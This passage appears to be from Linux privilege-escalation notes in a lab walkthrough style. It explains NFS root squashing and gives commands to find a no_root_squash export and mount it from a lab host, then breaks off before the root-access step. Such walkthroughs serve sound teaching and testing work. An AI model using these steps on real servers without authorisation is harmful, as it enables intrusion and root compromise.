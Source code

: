 **misconfigured cron jobs** can allow privilege escalation. Implementing security best practices can mitigate this risk.

**Check systemd timers as well !!**


## Privilege Escalation Via NFS Root squashing 

This is an NFS (Network File System) misconfiguration exploit where root permissions can be abused due to the no_root_squash option.
What is NFS Root Squashing?

    NFS (Network File System) allows files to be shared over a network.
    Normally, when an NFS client mounts a remote directory, any action performed as root on the client should not be treated as root on the server. Instead, it is mapped to an unprivileged user (like nobody).
    This protection is called "root squashing".

* The Vulnerability

    If the no_root_squash option is enabled in /etc/exports, root actions on the client are executed as root on the NFS server.
    This allows an attacker to create and execute root-owned binaries remotely.


Exploiting no_root_squash for Root Access
* Check NFS Export Configuration

`cat /etc/exports`

Example output:

`/tmp *(rw,no_root_squash)`

    /tmp is exported to all clients (* means anyone can mount it).
    rw → Clients can write to this share.
    no_root_squash → Root user on client = Root user on server (Vulnerable!)

* Identify Shared NFS Directories

`showmount -e 10.10.171.100`

This lists all exported (shared) NFS directories.

Example output:

Export list for 10.10.171.100:
/tmp *

This confirms /tmp is shared.
*  Mount the NFS Share

Create a local directory:

mkdir /tmp/1

Mount the remote /tmp directory:

`mount -o rw,vers=2 10.10.171.100:/tmp /tmp/1`

    -o rw → Mount with read/write permissions.
    vers=2 → Use NFS version 2 (adjust if needed).
